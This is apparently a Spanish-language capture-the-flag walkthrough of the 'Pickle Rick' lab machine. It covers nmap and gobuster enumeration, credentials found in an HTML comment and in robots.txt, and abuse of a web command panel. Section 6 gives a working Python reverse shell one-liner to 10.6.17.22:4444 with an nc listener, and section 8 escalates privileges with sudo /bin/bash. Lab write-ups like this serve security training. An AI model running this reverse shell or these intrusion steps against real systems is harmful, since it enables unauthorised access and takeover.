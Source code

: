 # Pickle Rick

## Introducción

Este informe detalla el proceso de enumeración y análisis inicial realizado sobre el host `rick.thm` (10.10.229.244) utilizando la herramienta Nmap. Se describen los hallazgos relevantes, los servicios expuestos, así como los pasos siguientes para la explotación y escalada de privilegios.

## 1. Escaneo de Puertos con Nmap

El primer paso fue realizar un escaneo de puertos con Nmap utilizando las opciones `-A -sT`, que permiten la detección avanzada de servicios y sistemas operativos. Se guardó la salida en un archivo `resultado.txt` para su posterior análisis.

### Comando utilizado:

```bash
nmap -A -sT rick.thm -oN resultado.txt
```

### Resultados obtenidos:

```markdown
Host: rick.thm (10.10.229.244)
Estado: Activo (latencia 0.18s)
Puertos abiertos:
- **22/tcp**: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.11)
- **80/tcp**: Apache HTTP 2.4.41 (Ubuntu)
```

## 2. Análisis del Código Fuente del Sitio Web

Se encontró un comentario en el código fuente con el nombre de usuario:

![](pickle%20rick1.png)

```html
<!-- Username: R1ckRul3s -->
```

## 3. Exploración de Directorios con Gobuster

Se utilizó **Gobuster** para la búsqueda de directorios ocultos y archivos accesibles:

```bash
gobuster dir -u http://rick.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

### Resultados encontrados:

```markdown
/login.php            (Status: 200)
/index.html           (Status: 200)
/assets               (Status: 301)
/portal.php           (Status: 302) -> /login.php
/robots.txt           (Status: 200)
```

En `robots.txt`, se encontró la siguiente información:

```plaintext
WubbaLubbaDubDub
```

## 4. Autenticación en el Portal Web

Se intentó el acceso en `/login.php` con las credenciales:

- **Usuario:** `R1ckRul3s`
- **Contraseña:** `WubbaLubbaDubDub`

El acceso fue exitoso y se redirigió al portal `/portal.php`.

## 5. Descubrimiento de Archivos Mediante Comandos

![](pickle%20rick2.png)

Dentro del portal, en la pestaña **Commands**, se ejecutó `ls`, obteniendo:

```plaintext
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Dado que otros archivos estaban bloqueados, se intentó acceder directamente a `http://rick.thm/Sup3rS3cretPickl3Ingred.txt`, lo cual permitió encontrar el primer ingrediente.

## 6. Creación de una Consola de Conexión Remota

Para obtener acceso interactivo al sistema, se estableció una **reverse shell** utilizando Python.

### Comando utilizado en el servidor (Rick.thm):

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.17.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Configuración en la máquina atacante:

```bash
nc -lvnp 4444
```

Tras la ejecución de estos comandos, se logró acceso remoto al sistema.

## 7. Obtención de Información Clave

Al explorar el sistema, en la ruta `/home/rick/`, se encontró un archivo llamado **"second ingredients"**. Al visualizar su contenido, se obtuvo la clave secreta:

```plaintext
********
```

## 8. Escalada de Privilegios

Se detectó que el usuario podía ejecutar comandos con `sudo`, lo que permitió escalar privilegios con el siguiente comando:

```bash
sudo /bin/bash
```

Una vez en modo root, se accedió al archivo en `/root/3rd.txt`, obteniendo el último ingrediente:

```plaintext
**********
```

## 9. Conclusión y Pasos Finales

- Se logró acceso inicial al sistema mediante credenciales obtenidas en el código fuente.
- Se identificaron archivos clave en el sistema y se accedió a información sensible.
- Se escaló privilegios con `sudo` y se accedió al último ingrediente.
